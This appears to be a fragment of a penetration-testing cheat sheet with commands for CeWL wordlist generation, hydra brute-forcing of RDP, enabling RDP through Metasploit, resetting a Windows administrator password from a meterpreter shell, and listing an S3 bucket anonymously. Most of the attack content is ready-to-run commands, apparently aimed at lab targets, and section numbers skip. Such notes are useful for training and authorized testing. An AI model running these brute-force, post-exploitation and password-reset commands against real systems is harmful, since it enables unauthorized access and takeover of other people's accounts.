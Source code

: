 




# 10. Cewl <a name="cewl"></a>
- ```cewl -w passwords.txt http://192.168.245.48:1898/?q=node/1```
















# 12. [Password Cracking](/hash_cracking.md)






# 13. RDP-3389 <a name="rdp"></a>

- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /user/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<target ip> -s <target port>`

- `xfreerdp /u:administrator /p:qwertyuiop /v:<target> ip:<port_number>`

- __`search enable_rdp`__
```
use post/windows/manage/enable_rdp
set sesstion 1
exploit
```
- __now you can change the password for the user in my case i have access to the administrator account__
- __so i have meterpreter session running in the background__
- __so use `shell`__
- __change the password__
- __`net user administrator password123`__
- > you have change the password of the admininstrator so that we can login using `xfreerdp` into rdp using this login
- __`xfreerdp /u:administrator /p:password123 /v:<targetip>`__






# [15. Metasploit](/metasploit.md)

# AWS S3 Bucket <a name="s3"></a>
- __Target url `http://darkinjector-phish.s3-website-us-west-2.amazonaws.com/`__
- __aws s3 ls s3://darkinjector-phish/ --region us-west-2 --no-sign-request__
```
┌──(root㉿kali)-[~]
└─# aws s3 ls s3://darkinjector-phish/ --region us-west-2 --no-sign-request
2025-03-17 06:46:17        132 captured-logins-093582390
2025-03-17 06:25:33       2300 index.html

```
  - __It lists the files in the S3 bucket named darkinjector-phish (root folder of the bucket).__
  - __It specifies that the bucket is in the us-west-2 region (Oregon).__
  